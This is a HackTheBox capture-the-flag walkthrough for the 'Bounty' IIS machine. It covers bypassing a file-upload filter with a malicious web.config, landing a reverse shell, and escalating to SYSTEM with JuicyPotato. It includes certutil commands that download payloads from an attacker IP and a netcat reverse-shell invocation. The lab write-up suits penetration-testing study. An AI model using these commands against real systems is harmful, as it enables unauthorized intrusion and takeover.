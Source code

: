 # Bounty [HTB](https://app.hackthebox.com/machines/Bounty)
![bounty-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/bounty-01.png)

## Recon 

After adding the target to `/etc/hosts`, i run an `nmap` scan:

```bash
nmap -sC -sV -A -p- bounty.htb -oN nmap.result
```

![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/nmap-res-02.png)

We have the following:

+ An IIS v7.5 on port 80.

We have a single web server, lets see what we can find. 


### IIS Port 80

Lets start by navigating towards the site at `http://bounty.htb` 

![site-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/site-03.png)

Not much to see here, lets try a directory and file scan using `ffuf`:

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://bounty.htb/FUZZ -e .cgi,.php,.aspx,.asp
```

![ffuf-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/ffuf-04.png)

![ffuf-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/ffuf-05.png)

We have two interesting results. The first is a file upload directory, if we use Burp to intercept the 
request to this link we will get a `403` forbbiden return code:

![forbidden-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/forbidden-06.png)

On the other hand, we have a file upload page enabled for public use on this server:

![upload-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/upload-07.png)

Lets try to upload a simple `.txt` file to the server:

![txt-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/txt-08.png)

We get an error. Lets examine the replay in `Burp`:

![burp-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/burp-09.png)

There is a server side `ValidateFile()` funciton. I couldnt find this functiuon executing on the client 
side. We cant be sure exactly how the function works, it could determine acceptable file types via HTTP 
headers, magic numbers, file extensions, etc. 

Lets try to upload a `jpg` image:

![jpg-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/jpg-10.png)

So we see that `jpg` files are accepted. Can we view the image from the `uploadedfiles` directory? 

![view-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/view-11.png)

Yes we can. Ok, so now ideally what we want to do is find a way to land a reverse shell. With an IIS 
server we can try a copule of things. We can try to upload an `.aspx` reverse shell, which doesnt work 
in this case. The file upload validator checks the file extension. I've tried different tricks to 
bypass this but nothing worked for me. 

But we can also inject code inside a `web.config` file, which in this case, is accepted:

![config-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/config-12.png)


If we open the file via the browser we get an internal error:

![internal-err-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/internal-err-13.png)

This happens becasue the server tried to render the file, but failed because there was no valid syntax, lets change that. 

I found a `web.config` file for a reverse shell on [Github](https://github.com/d4t4s3c/Offensive-Reverse-Shell-Cheat-Sheet/blob/master/web.config).

![rshell-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/rhsell-14.png)

As you can see, it runs a PowerShell command to grab a reverse shell from our host and execute it.
First, download the `web.config` file and update you attack machine's IP. 

Next, grab a copy of [nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)'s `Invoke-PowerShellTCP.ps1` script to your working directory and invoke the reverse shell cmdlet at the buttom:

![cmdlet-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/cmdlet-15.png)

Now we need to host this file via a python web server:

```bash
python3 -m http.server 80
```

Upload the `web.config` file to the server:

![upload-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/upload-16.png)

Start the listener:

```bash
rlwrap nc -lnvp 443
```

Execute the  `web.config` file via the URL at `http://bounty.htb/uploadedfiles/web.config`.

This should give you access to the target system:

![shell-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/shell-17.png)


## Privilege Escalation

If we check for our user's privileges with:

```cmd
whoami /priv
```

![privs-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/privs-18.png)

We can see we have the `Impersonate` privileged enabled. We can potentially exploit this with a [potato attack](https://github.com/ohpe/juicy-potato), download from [here](https://github.com/ohpe/juicy-potato/releases).


Once you have the `JuicyPotato.exe` binary in your working directory, grab a copy of `/usr/share/windows-resources/binaries/nc.exe` as well. Then start a Python server with:

```bash
python3 -m http.server 80
```

Now from the traget, `cd` into a directory we can write to like `C:\Users\merlin\AppData\Local\Temp` and download both files with:

```cmd
certutil -urlcache -f http://10.10.14.62/JuicyPotato.exe jp.exe
certutil -urlcache -f http://10.10.14.62/nc.exe nc.exe
```

Start the listener with:

```bash
rlwrap nc -lnvp 9001
```


Execute the exploit with:

```cmd
C:\Users\merlin\AppData\Local\Temp\jp.exe -l 9001 -p C:\windows\system32\cmd.exe -a "/c C:\Users\merlin\AppData\Local\Temp\nc.exe -e cmd.exe 10.10.14.62 9001" -t *
```

This should yield you a shell as the system:

![root-19](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/root-19.png)
